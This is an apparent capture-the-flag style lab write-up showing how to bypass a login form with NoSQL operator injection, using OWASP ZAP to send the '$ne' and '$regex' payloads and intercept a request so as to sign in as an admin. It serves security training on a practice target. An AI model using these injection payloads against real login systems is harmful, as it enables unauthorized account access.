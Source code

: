 # Lab: Exploiting NoSQL operator injection to bypass authentication [OWASP Zed Attack Proxy]

In ZAP's browser log in as `wiener:peter`, under __History__ tab, find `POST /login` request with body:

```json
{"username":"wiener","password":"peter"}
```

Right-click the request and select "Open in Requester Tab". Change the value of `username` parameter from `"wiener"` to `{"$ne":""}` and click send. Response:

```
HTTP/1.1 302 Found
Location: /my-account?id=wiener
```

Now change the value of the `password` parameter from `"peter"` to `{"$ne":""}` and send the request:

```html
<h4>Internal Server Error</h4>
<p class=is-warning>Query returned unexpected number of records</p>
```

This suggests that our query matched too many users. Now change the value of `username` parameter to `{"$regex":"admin.*"}` and send the request:

```
HTTP/1.1 302 Found
Location: /my-account?id=admin6fn8crcu
```

To open this in browser and solve the lab, there is no neat little trick in ZAP like Burp's __Request in Browser__ functionality, but one way to do it is with Breakpoints:

> NOTE: Unebelievably this ended up being the hardest part of the lab.

- Go to the homepage of the site, make sure you're logged out. Then navigate to `/my-account` page
- Go to ZAP and turn on the __Break__ (__Tools__ > __Toggle Break on All Requests__).
- Log in as `wiener:peter`
- In ZAP a __Break__ tab will appear with your intercepted request. Replace the entire request body with `{"username":{"$regex":"admin.*"},"password":{"$ne":""}}`.
- Go to __Tools__ and choose __Submit and Continue to Next Breakpoint__

Now you're logged in and the lab is solved. 
